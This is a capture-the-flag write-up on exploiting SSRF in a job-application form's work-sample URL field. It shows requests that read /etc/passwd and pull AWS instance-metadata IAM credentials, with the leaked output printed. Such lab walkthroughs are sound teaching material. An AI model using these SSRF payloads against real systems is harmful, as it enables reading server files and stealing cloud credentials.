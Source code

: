 (ch10)=
Frost Tower Challenge
=====================

After the embarassing talk with Noxious O.D'or in the CEO restroom (!) we arrived to the SSFR + IMDS challenge
<br/>you can find it here: [https://apply.jackfrosttower.com](https://apply.jackfrosttower.com)

docs available: 
<br/>[https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
<br/>[https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)


## Mantra SSFR
```{admonition} Remember!
Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."
```

The first GET we tried was the one in home page required to apply for a position. 
<br/>[https://apply.jackfrosttower.com/?p=apply](https://apply.jackfrosttower.com/?p=apply)

and of course we love BurpSuite for the web challenges so  we [configure our browser](https://portswigger.net/burp/documentation/desktop/external-browser-config/browser-config-firefox) to pass through the proxy for our convenience (even if you can do everything just by using the browser)


Let's submit the Form Request and, of course, we try immediately the field `inputWorkSample` because Dr. Petabyte Docet !
```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=file:///etc/passwd&additionalInformation=bbb&submit= HTTP/2
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
User-Agent: This field can be used like the "Evil Bit" 2.0 
```

<br>
after submitting the HTTP Request, we receive a curious enough Response HTML page 
in which we see again 3 images, but one of them seems broken. <br/>

![broken image](images/frost-web-apply.png)


By inspecting the HTML we see that the name of that image **is just the parameter we inserted as the parameter `inputName`**
```
<img class="rounded mx-auto d-block" src="images/aa.jpg" width="200px" />
```

and actually doing a curl on that image name it returns to us a real gift ..
```
$ curl https://apply.jackfrosttower.com/images/aa.jpg
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
## Entry point SSFR
Ok. we've found the entry point for the SSFR and we now have to ask for the IMDS. We try http://169.254.169.254/latest/meta-data first

```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=http://169.254.169.254/latest/meta-data&additionalInformation=
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
```

and see the results in our /images/aa.jpg so kindly offered :)
```
curl https://apply.jackfrosttower.com/images/aa.jpg
ami-id
ami-launch-index
ami-manifest-path
...(cutted).
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
.....(cutted)
```

### SecretAccessKey
and if we applied what we learnt in the prechallenge about `IMDS 1` and `security-credentials`. 
```
GET /?inputName=aa&inputEmail=aa%40me.it&inputPhone=aa&inputField=Bedtime+violation&resumeFile=&inputWorkSample=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&additionalInformation=
Host: apply.jackfrosttower.com
User-Agent: This field can be used like the "Evil Bit" 2.0. Absolutely NOT malicious! 
```
 
```
$ curl https://apply.jackfrosttower.com/images/aa.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

Got it!
Done.

